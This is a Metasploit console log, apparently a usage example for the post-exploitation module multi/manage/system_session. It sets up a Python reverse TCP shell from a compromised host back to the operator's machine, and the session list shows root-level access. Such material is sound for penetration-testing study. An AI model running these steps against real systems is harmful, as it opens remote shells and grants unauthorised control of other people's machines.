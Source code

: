 ```

Compatible session types:
  Meterpreter
  Shell

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  HANDLER  false            yes       Start an exploit/multi/handler to receive the connection
  LHOST                     yes       IP of host that will receive the connection from the payload.
  LPORT    4433             no        Port for Payload to connect to.
  SESSION  6                yes       The session to run this module on.
  TYPE     auto             yes       Scripting environment on target to use for reverse shell (Accepted: auto, ruby, python, perl, bash)

Description:
  This module will create a Reverse TCP Shell on the target system 
  using the system's own scripting environments installed on the 
  target.

msf5 post(multi/manage/system_session) > set HANDLER true
HANDLER => true
msf5 post(multi/manage/system_session) > set LHOST 192.141.94.2
LHOST => 192.141.94.2
msf5 post(multi/manage/system_session) > set LPORT 4444
LPORT => 4444
msf5 post(multi/manage/system_session) > set TYPE python
TYPE => python
msf5 post(multi/manage/system_session) > run

[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.141.94.2:4444 
[*] Python reverse shell selected
[*] Executing reverse tcp shell to 192.141.94.2 on port 4444
[*] Post module execution completed
msf5 post(multi/manage/system_session) > [*] Command shell session 8 opened (192.141.94.2:4444 -> 192.141.94.3:52896) at 2023-03-11 03:49:23 +0000

msf5 post(multi/manage/system_session) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                             Connection
  --  ----  ----                   -----------                                             ----------
  6         shell cmd/unix                                                                 192.141.94.2:45369 -> 192.141.94.3:445 (192.141.94.3)
  7         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.141.94.3             192.141.94.2:4433 -> 192.141.94.3:49134 (192.141.94.3)
  8         shell sparc/bsd        /bin/sh: 0: can't access tty; job control turned off #  192.141.94.2:4444 -> 192.141.94.3:52896 (192.141.94.3)
```
